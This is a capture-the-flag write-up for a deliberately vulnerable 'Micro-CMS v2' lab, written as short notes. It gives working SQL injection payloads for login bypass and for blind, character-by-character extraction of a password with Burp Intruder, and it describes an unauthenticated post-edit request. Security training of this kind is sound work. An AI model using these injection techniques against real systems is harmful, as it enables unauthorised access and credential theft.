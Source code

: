 # Micro-CMS v2
### Flag 0
* Using '<:;>" as username and password produces the following error
```
 Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ';'' at line 1")
```
* Use *' UNION SELECT '111' as password* as the username and *111* as password
* Open the private page to get the flag

### Flag 1
* Editing post requires user to login. So try to edit post without logging in.
* Send a POST request to edit the post using curl or Burp repeater.
* The response contains the flag

### Flag 2
* Use *' OR password like %x#* as username and attack using Burp Intruder. Change x from a-z and filter out all responses that contain *Unknown User* in the response. This would leave only 1 response which contains *Invalid Password* in the reponse. This is the last character of the password.
* Replace x by the last character of the password. Now use *' OR password like %yx#* where y varies from a-z. This way get the 2nd last character of password. Continue this process to build the password character by character.
* On getting the password use *' OR password = 'password'#* as username and *password* as password and login to get the flag.